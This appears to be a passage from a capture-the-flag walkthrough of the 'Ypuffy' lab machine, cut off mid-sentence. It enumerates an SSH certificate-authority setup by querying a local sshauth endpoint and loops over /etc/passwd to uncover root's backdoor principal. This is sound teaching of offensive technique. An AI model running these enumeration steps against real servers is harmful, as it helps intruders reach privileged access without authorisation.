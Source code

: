 TrustedUserCAKeys /home/userca/ca.pub
AuthorizedPrincipalsCommand /usr/local/bin/curl [http://127.0.0.1/sshauth?type=principals&username=%u](http://127.0.0.1/sshauth?type=principals&username=%25u)
AuthorizedPrincipalsCommandUser nobody
The public CA key is there along with likely the private one (that I can’t read):
ypuffy$ ls -l /home/userca/
total 8
-r--------  1 userca  userca  1679 Jul 30 21:08 ca
-r--r--r--  1 userca  userca   410 Jul 30 21:08 ca.pub
Background
Before I interact with this system, it’s worth taking a minute to look at what this is trying to achieve. Key-based authentication for SSH is widely considered both easier and more secure than password-based auth.
However, in a large enterprise, managing ssh keys gets to be quite a pain. If IT wants to provision access to someone, they would have to go to each server and update the authorized_keys file with a new key. And if someone leaves, do it all over again. It just doesn’t scale.
SSH also allows authentication via signed certificates. You configure each server to trust a certificate authority (CA) and any certificates that it signs.
Facebook did a really great post about how they are using signed certs for SSH auth that’s worth a read if you want to hear about it in action.
Enumerating the CA
With the background in mind, I’ll see what I can get out of those two curl commands in the sshd_config file.
Authorized Keys
First, I’ll take a look at the AuthorizedKeysCommand. Running it returns alice’s public key:
ypuffy$ /usr/local/bin/curl '[http://127.0.0.1/sshauth?type=keys&username=alice1978](http://127.0.0.1/sshauth?type=keys&username=alice1978)'
ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEApV4X7z0KBv3TwDxpvcNsdQn4qmbXYPDtxcGz1am2V3wNRkKR+gRb3FIPp+J4rCOS/S5skFPrGJLLFLeExz7Afvg6m2dOrSn02quxBoLMq0VSFK5A0Ep5Hm8WZxy5wteK3RDx0HKO/aCvsaYPJa2zvxdtp1JGPbN5zBAjh7U8op4/lIskHqr7DHtYeFpjZOM9duqlVxV7XchzW9XZe/7xTRrbthCvNcSC/SxaiA2jBW6n3dMsqpB8kq+b7RVnVXGbBK5p4n44JD2yJZgeDk+1JClS7ZUlbI5+6KWxivAMf2AqY5e1adjpOfo6TwmB0Cyx0rIYMvsog3HnqyHcVR/Ufw== rsa-key-20180716
I can prove that by show it matches what was in the ppk:
root@kali# puttygen my_private_key.ppk -O public-openssh
ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEApV4X7z0KBv3TwDxpvcNsdQn4qmbXYPDtxcGz1am2V3wNRkKR+gRb3FIPp+J4rCOS/S5skFPrGJLLFLeExz7Afvg6m2dOrSn02quxBoLMq0VSFK5A0Ep5Hm8WZxy5wteK3RDx0HKO/aCvsaYPJa2zvxdtp1JGPbN5zBAjh7U8op4/lIskHqr7DHtYeFpjZOM9duqlVxV7XchzW9XZe/7xTRrbthCvNcSC/SxaiA2jBW6n3dMsqpB8kq+b7RVnVXGbBK5p4n44JD2yJZgeDk+1JClS7ZUlbI5+6KWxivAMf2AqY5e1adjpOfo6TwmB0Cyx0rIYMvsog3HnqyHcVR/Ufw== rsa-key-20180716
I could further enumerate this endpoint, but it seems to return public keys, so even if I am able to find one for another user doesn’t get me very far.
Authorized Principles
The second curl was the AuthorizedPrincipalsCommand. The principal is a link between the certificate and the accounts able to access it via certificate.
If I query this endpoint for alice1978, I get back her name. Same thing with the bob8971 account I found in ldap:
ypuffy$ curl -s "[http://127.0.0.1/sshauth?type=principals&username=alice1978](http://127.0.0.1/sshauth?type=principals&username=alice1978)"
alice1978
ypuffy$ curl -s "[http://127.0.0.1/sshauth?type=principals&username=bob8791](http://127.0.0.1/sshauth?type=principals&username=bob8791)"
bob8791
I’ll run over each of the users in /etc/passwd using a bash loop and see what comes back:
ypuffy$ for name in $(cut -d: -f1 /etc/passwd); do principal=$(curl -s "[http://127.0.0.1/sshauth?type=principals&username=${name}](http://127.0.0.1/sshauth?type=principals&username=$%7Bname%7D)"); if [[ ! -z $principal ]]; then echo "${name}: ${principal}"; fi; done
root: 3m3rgencyB4ckd00r
Here’s the breakdown of that loop:
•	for name in $(cut -d: -f1 /etc/passwd); do - Get the lines from /etc/passwd, and cut on :, taking the first field, the name. Loop over these, using the ${name} variable.
•	principal=$(curl -s "[http://127.0.0.1/sshauth?type=principals&username=${name}](http://127.0.0.1/sshauth?type=principals&username=$%7Bname%7D)"); - use curl to check the principal and store the result in ${principal}.
•	if [[ ! -z $principal ]]; then echo "${name}: ${principal}"; fi; - If ${principal} is not an empty string, print the name and the principal.
Two things to note:
